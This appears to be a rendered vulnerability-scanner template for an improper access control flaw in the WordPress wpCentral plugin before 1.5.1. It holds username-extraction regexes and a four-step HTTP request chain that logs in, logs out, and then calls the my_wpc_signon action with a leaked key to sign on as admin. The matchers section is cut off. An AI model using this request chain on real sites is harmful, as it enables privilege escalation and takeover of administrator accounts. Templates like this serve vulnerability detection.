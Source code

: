 **Type - regex**
- name - username
- internal - True
- group - 1
- part - body
- regex
    1. Author:(?:[A-Za-z0-9 -\_="]+)?\<span(?:[A-Za-z0-9 -\_="]+)?>([A-Za-z0-9]+)\<\/span>

**Type - regex**
- name - username
- internal - True
- group - 1
- part - header
- regex
    1. ion: https:\/\/[a-z0-9.]+\/author\/([a-z]+)\/

---
# WordPress wpCentral \< 1.5.1 - Improper Access Control to Privilege Escalation
## Description
- The wpCentral plugin before 1.5.1 for WordPress allows disclosure of the connection key for Wordpress Admin Account.

- severity - high
- tags - wordpress,wp-plugin,wpcentral,authenticated,wp,wpscan,cve,cve2020
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/index.php HTTP/1.1
Host: {{Hostname}}

```
### Step - 3
```
GET /wp-login.php?action=logout&_wpnonce={{nonce}} HTTP/1.1
Host: {{Hostname}}

```
### Step - 4
```
GET /wp-admin/admin-ajax.php?action=my_wpc_signon&auth_key={{authkey}} HTTP/1.1
Host: {{Hostname}}

```
### Matchers

